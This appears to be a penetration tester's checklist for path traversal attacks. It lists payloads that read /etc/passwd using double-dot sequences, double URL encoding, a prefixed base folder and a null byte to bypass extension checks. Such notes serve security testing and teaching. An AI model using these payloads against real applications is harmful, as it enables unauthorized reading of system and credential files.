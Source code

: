 - [ ] Try absolute path `/etc/passwd`, and double things `....//`. `double url encoding` | `../` --> ``%2e%2e%2f`` --> `%252e%252e%252f`.
- [ ] Give it right base folder, `filename=/var/www/images/../../../etc/passwd`
- [ ] if valied extension is required try null byte. `filename=../../../etc/passwd%00.png`

---
- If app expected base folder, such as `/var/www/images`. In this case, it might be possible to include the required base folder followed by suitable traversal sequences. For example: `filename=/var/www/images/../../../etc/passwd`.
- If app expected file extension, such as `.png`. In this case, it might be possible to use a null byte to effectively terminate the file path before the required extension. For example: `filename=../../../etc/passwd%00.png`.